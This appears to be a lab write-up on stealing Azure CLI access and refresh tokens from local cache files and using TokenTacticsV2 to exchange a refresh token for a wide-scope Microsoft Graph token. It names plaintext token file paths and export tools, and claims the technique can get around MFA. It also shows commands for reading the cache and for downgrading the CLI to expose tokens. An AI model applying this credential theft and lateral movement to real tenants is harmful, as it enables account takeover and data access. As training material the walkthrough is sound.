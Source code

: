 Access token can be used only for a specific scope of a specific service, whereas a refresh token can be used to craft access token for other services to which the user may be permissioned. This can allow us to move laterally to other services, and potentially bypass any MFA enforcement configured for those services.

On Mac and Linux the Az CLI access and refresh tokens are stored in plaintext in the file `~/.azure/msal_token_cache.json`

On Windows the tokens are stored in `%userprofile%\.azure\msal_token_cache.bin` and encrypted using DPAPI. We can export the tokens from `msal_token_cache.bin` using the `Export-AzureCliTokens / Export-AADIntAzureCliTokens` function in [AccessToken_utils.ps1](https://www.powershellgallery.com/packages/AADInternals-Endpoints/0.9.6/Content/AccessToken_utils.ps1) from [AADInternals-Endpoints](https://github.com/Gerenios/AADInternals-Endpoints).

Interestingly, the refresh tokens seem not to be stored in the `MSALCache`. If you add `Write-Output $tokens` just before `$objTokens = $tokens | ConvertFrom-Json` in the function `Export-AzureCliTokens` in `AccessToken_utils.ps1`, we see all the AccessToken and IdToken values but no RefreshToken values.

Alternatively, we can also install an older version of the Az CLI on a test Windows VM, as these older versions store both access and refresh tokens unprotected in the file `%userprofile%\.azure\accessTokens.json`.
```
winget uninstall Microsoft.AzureCLI --all-versions
Invoke-WebRequest -Uri https://azurecliprod.blob.core.windows.net/msi/azure-cli-2.3.0.msi -OutFile .\AzureCLI.msi; Start-Process msiexec.exe -Wait -ArgumentList '/I AzureCLI.msi /quiet'; rm .\AzureCLI.msi
```

There are a few tools that can help us with moving laterally to other services. The one we'll use is [TokenTacticsV2](https://github.com/f-bader/TokenTacticsV2). 
```
└─$ cat ~/.azure/msal_token_cache.json
```
```
└─PS> Invoke-RefreshToMSGraphToken -domain megabigtech.com -refreshToken "<REDACTED>"                                                                                          
✓  Token acquired and saved as $MSGraphToken

token_type     : Bearer
scope          : email openid profile https://graph.microsoft.com/AuditLog.Create https://graph.microsoft.com/Calendar.ReadWrite https://graph.microsoft.com/Calendars.Read.Shared https://graph.microsoft.com/Calendars.ReadWrite 
                 https://graph.microsoft.com/Contacts.ReadWrite https://graph.microsoft.com/DataLossPreventionPolicy.Evaluate https://graph.microsoft.com/Directory.AccessAsUser.All https://graph.microsoft.com/Directory.Read.All 
                 https://graph.microsoft.com/Files.Read https://graph.microsoft.com/Files.Read.All https://graph.microsoft.com/Files.ReadWrite.All https://graph.microsoft.com/FileStorageContainer.Selected 
                 https://graph.microsoft.com/Group.Read.All https://graph.microsoft.com/Group.ReadWrite.All https://graph.microsoft.com/InformationProtectionPolicy.Read https://graph.microsoft.com/Mail.ReadWrite 
                 https://graph.microsoft.com/Mail.Send https://graph.microsoft.com/Notes.Create https://graph.microsoft.com/Organization.Read.All https://graph.microsoft.com/People.Read https://graph.microsoft.com/People.Read.All 
                 https://graph.microsoft.com/Printer.Read.All https://graph.microsoft.com/PrinterShare.ReadBasic.All https://graph.microsoft.com/PrintJob.Create https://graph.microsoft.com/PrintJob.ReadWriteBasic 
                 https://graph.microsoft.com/Reports.Read.All https://graph.microsoft.com/SensitiveInfoType.Detect https://graph.microsoft.com/SensitiveInfoType.Read.All https://graph.microsoft.com/SensitivityLabel.Evaluate 
                 https://graph.microsoft.com/Tasks.ReadWrite https://graph.microsoft.com/TeamMember.ReadWrite.All https://graph.microsoft.com/TeamsTab.ReadWriteForChat https://graph.microsoft.com/User.Read.All 
                 https://graph.microsoft.com/User.ReadBasic.All https://graph.microsoft.com/User.ReadWrite https://graph.microsoft.com/Users.Read https://graph.microsoft.com/.default
expires_in     : 3711
```